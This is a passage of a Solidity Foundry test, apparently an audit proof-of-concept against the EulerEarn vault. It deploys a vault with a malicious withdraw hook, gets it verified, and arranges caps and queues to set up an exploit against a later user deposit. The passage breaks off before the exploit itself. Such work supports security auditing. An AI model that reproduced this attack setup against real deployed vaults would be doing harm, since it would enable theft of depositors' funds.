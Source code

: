 ```solidity
            OWNER, 0, address(loanToken), "EulerEarn Vault", "EEV", bytes32(uint256(1))
        );

        vm.startPrank(OWNER);
        eulerEarn.setCurator(CURATOR);
        eulerEarn.setIsAllocator(ALLOCATOR, true);
        eulerEarn.setFeeRecipient(FEE_RECIPIENT);
        vm.stopPrank();

        // soon-to-be malicious vault deployed and verified
        IEVault eVault;
        eVault = IEVault(
            factory.createProxy(address(0), true, abi.encodePacked(address(loanToken), address(oracle), unitOfAccount))
        );

        // hook for malVault updated to malicious hook 
        // Note: this can be done directly before exploit, but doing it here for simplicity of the test.
        // In real world scenario the hook may not be updated or upgraded to include malicious logic until
        // the attack is ready to be executed.
        uint32 hookOps = OP_WITHDRAW;
        address malHook = address(new MalHook(address(eulerEarn)));

        eVault.setHookConfig(malHook, hookOps); 

        IERC4626 malVault = _toIERC4626(eVault);
        perspective.perspectiveVerify(address(malVault));

        // Supply to malVault on behalf of EulerEarn 
        address attacker = OWNER;
        loanToken.mint(attacker, 1);

        vm.startPrank(attacker);
        loanToken.approve(address(malVault), 1);
        malVault.deposit(1, address(eulerEarn));
        vm.stopPrank();

        // Set caps for all strategies (small, negligible cap for  malVault), malVault at end of withdrawQueue
        vm.startPrank(CURATOR);
        eulerEarn.submitCap(allMarkets[0], type(uint184).max);
        eulerEarn.submitCap(malVault, 1);
        eulerEarn.acceptCap(allMarkets[0]);
        eulerEarn.acceptCap(malVault);
        vm.stopPrank();

        // Add trusted strategy to supply queue only
        IERC4626[] memory supplyQueue = new IERC4626[](1);
        supplyQueue[0] = allMarkets[0];

        vm.startPrank(ALLOCATOR);
        eulerEarn.setSupplyQueue(supplyQueue);
        vm.stopPrank();

        // Set cap of malVault to 0
        vm.startPrank(CURATOR);
        eulerEarn.submitCap(malVault, 0);
        vm.stopPrank();

        // user deposits into EulerEarn
        uint256 depositAmount = 1000e18;
```